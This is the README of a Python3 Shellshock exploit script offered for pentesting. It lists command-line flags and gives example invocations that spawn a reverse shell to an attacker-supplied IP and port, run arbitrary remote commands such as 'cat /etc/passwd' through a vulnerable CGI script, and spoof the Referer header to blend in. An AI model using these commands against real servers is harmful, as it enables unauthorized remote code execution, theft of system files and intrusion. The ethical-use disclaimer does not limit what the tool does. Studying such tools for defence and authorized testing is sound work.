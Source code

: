 # Shellshock.py
Python3 shellshock exploit, for ethical hacking/pentesting purposes only. Use it at your own risk. I'm not responsible if you use it with illegal purposes.

<h3>Usage:</h3>

```
-u, --url To specify the target URL (root path), for example: http://example.com
-r, --route-to-cgi To specify the route to the CGI script, for example /cgi-bin/time.sh
-c, --comand To execute remote commands, for example: 'cat /etc/passwd' USE SINGLE QUOTES
-s, --shell To spawn a reverse shell (lhost and lport arguments needed)
-lh, --lhost For specifying your IPv4 to receive the reverse shell, for example: 10.10.14.6
-lp, --lport For specifying the Local Port that you want to use to receive the reverse shell, for example: 443
-to, --timeout The timeout in seconds that you want to set for the HTTP requests, default is 10.
-R, --referer-spoof If you want to use Referer Spoofing, specify a trustable URL, for example: https://www.google.com/search?q=cabecera+referer&oq=cabecera+referer&aqs=chrome..69i57j69i59l2j0l4j69i60.3531j0j7&sourceid=chrome&ie=UTF-8
```

You can do two things with this script, you can receive a shell, or you can execute remote commands

<h3>Example for receiving a shell:</h3>

```
python3 shellshock.py -u http://example.com -r /cgi-bin/time.sh -s -lh 10.10.14.6 -lp 443
```

<h3>Example for executing remote commands:</h3>

```
python3 shellshock.py -u http://example.com -r /cgi-bin/time.sh -c 'cat /etc/passwd'
```
